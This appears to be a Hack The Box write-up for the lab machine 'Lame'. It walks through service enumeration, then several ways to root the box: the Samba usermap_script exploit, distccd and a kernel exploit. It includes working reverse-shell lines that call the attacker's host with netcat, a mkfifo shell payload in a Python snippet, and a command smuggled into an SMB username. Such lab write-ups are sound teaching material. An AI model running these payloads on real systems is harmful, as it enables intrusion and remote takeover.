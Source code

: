 # Lame HTB, IP address: 10.10.10.3

## Initial Enumeration 
 
 1. **nmap -sC -sV 10.10.10.3** 
 
![lame1](https://user-images.githubusercontent.com/15195048/93899974-bab02500-fca9-11ea-87c0-4ab4a045c096.png)
----------------------------------------------------------------------------------------------------------------------------------------------
## Port Enumeration

## 1.Enumerating FTP

vulnerable **vsftpd 2.3.4** , anonymous login allowed
According to nmap script the ftp service is not vulnerable so the version would possibly be a banner.
However, we will try metasploit in order to exploit this vulnerability.

**Metasploit**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo msfdb start
msfconsole
>search vsftpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![lame2](https://user-images.githubusercontent.com/15195048/93902144-167bad80-fcac-11ea-994e-7fff3d2e861e.png)


Yes, indeed this is a banner so it wont work!!

![lame3](https://user-images.githubusercontent.com/15195048/93902145-17144400-fcac-11ea-995f-560d1a312769.png)

## 2.Enumerating SMB on port 139 & 445

**1.enum4linux -a 10.10.10.3**


![lame4](https://user-images.githubusercontent.com/15195048/93902146-17144400-fcac-11ea-94fd-1935c5c21b4f.png)


**2.smbclient -L \\10.10.10.3**
 error NT_STATUS_CONNECTION_DISCONNECTED
 
  SMBClient generating an error: protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
  Samba has turned off default SMBv1 support as of September of last year.
  
**--option='client min protocol=NT1'**

**smbclient //10.10.10.x/ --option='client min protocol=NT1'**

Go to ur /etc/samba/smb.conf under the [global] section:
client min protocol = NT1
That allows smbclient to work against SMBv1 shares.

**3.smbmap -H 10.10.10.3**

 ![lame5](https://user-images.githubusercontent.com/15195048/93902150-17acda80-fcac-11ea-995a-4a4b2e36e4ec.png)

 
# Privilege Escalation no1

# A)Metasploit
Metasploit
msf5 > search samba 3.0.20
use exploit/multi/samba/usermap_script

![lame6](https://user-images.githubusercontent.com/15195048/93902152-18457100-fcac-11ea-99c5-18f7cbc424e5.png)

**Rooted**

# B)Manually exploit SMB

smbclient 10.10.10.3/tmp
smb>logon "/=`nohup nc -nv 10.10.14.4 4444 -e /bin/sh`"

![lame7](https://user-images.githubusercontent.com/15195048/93902155-18457100-fcac-11ea-998a-1cd80ce0c314.png)


**Attacker:** 
nc -lvpn 4444

![lame8](https://user-images.githubusercontent.com/15195048/93902156-18de0780-fcac-11ea-9708-2af75de533b0.png)

**Rooted**

# Samba exploit script written in Python
If you find an exploit written in Python you could modify the variables, or you can run line by line yourself.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$pythonn
>>> payload = '
>>> from smb.SMBConnection import SMBConnection
>>> payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.X 9999 >/tmp/f' Attacker IP and port
>>> username = "/=`nohup " + payload + "`"
>>> connection = SMBConnection(username, "", "", "")
>>> connection.connect("10.10.10.3",445)  Victim IP and port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Attacker:**
nc -lnvp 9999

**Rooted**
-----------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation no2
Enumerating port 3621 (distccd)

![lame9](https://user-images.githubusercontent.com/15195048/93902157-18de0780-fcac-11ea-9d38-70413e9d14dd.png)

 
Metasploit module:
searchsploit -m exploits/multiple/remote/9915.rb

Let’s see if a non-metasploit one is on the internet:

NMAP Script
ls -la /usr/share/nmap/scripts/*distcc*
/usr/share/nmap/scripts/distcc-cve2004-2687.nse


**nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.14.X 9999'" 10.10.10.3 -Pn**

**Attacker:**
$ nc -lnvp 9999

# A)GTFobins nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2$ id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# B)Kernel Exploit
Kernel Exploit
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

Search kernel exploits: 8572.c

Send with python server the exploit and get it from the victim machine
gcc -o exp 8572.c #compile it and run it

**UDEV Modern Linux distributions** are capable of identifying a hardware component which is plugged into an already-running system. There are a lot of user-friendly distributions like Ubuntu, which will automatically run specific applications like Rhythmbox when a portable device like an iPod is plugged into the system.

*Netlink is used to transfer information between the kernel and user- space processes.*
